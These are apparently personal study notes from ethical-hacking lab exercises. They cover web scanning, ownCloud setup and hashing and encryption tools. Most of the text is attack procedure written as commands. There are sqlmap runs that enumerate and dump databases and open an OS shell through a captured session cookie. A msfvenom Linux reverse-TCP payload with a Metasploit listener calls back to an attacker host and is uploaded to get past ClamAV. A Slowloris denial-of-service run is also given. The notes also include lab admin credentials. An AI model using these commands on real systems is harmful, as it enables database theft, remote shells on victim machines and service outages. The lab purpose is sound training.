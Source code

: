 N-Stalker Free X - Web Application Security Scanner
•	Open tool, Enter URL http://www.goodshopping.com and select OWASP Policy, Click Start Scan Wizard.
•	Leave Settings as default and start session.
•	Start scan. Wait for scan to complete to view results.

SQLMAP
•	Login into website, Get user session cookie via document.cookie is console.
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> --dbs
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D <database name> --tables
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D <database name> -T <table name> --columns
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> -D <database name> -T <table name> --dump
•	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie=<”cookie values”> --os-shell


CLOUD COMPUTING
Using owncloud
•	Hosted at ubuntu machine http://10.10.10.9/owncloud. admin:qwerty@123
•	Create users and share files to users.
•	Install Desktop client and share and view files
ClamAV Protection of cloud
Cloud is currently protected by ClamAV so no malicious file is uploaded.

Bypassing ClamAV
•	msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.10.11 LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf | generate a linux based executable
•	Type use multi/handler
•	Type set payload linux/x86/shell/reverse_tcp
•	Type set LHOST 10.10.10.11
•	Type set LPORT 4444
•	Type run
•	Upload payload in shared folder.
•	Download using admin, Set permission to chmod -R 755 exploit.elf
•	Execute exploit ./exploit.elf
DOS Attack using Slowloris.pl script
•	Open Slowloris folder 
•	Run chmod 777 Slowloris.pl
•	Execute script ./solaris.pl -dns 10.10.10.9
•	DOS attack successful

CRYPTOGRAPHY
HASHCALC
Easy to use GUI based. Supports text and files

MD5 CALCULATOR
Easy to use, integrates with explorer right click. Right Click any file and select MD5 Calculator to calculate its MD5 Hash.

CRYPTOFORGE
•	Install and it will appear as an encrypt when right clicking on files.
•	To Encrypt open cryptoforge text and enter your text here and use a passphrase to encrypt
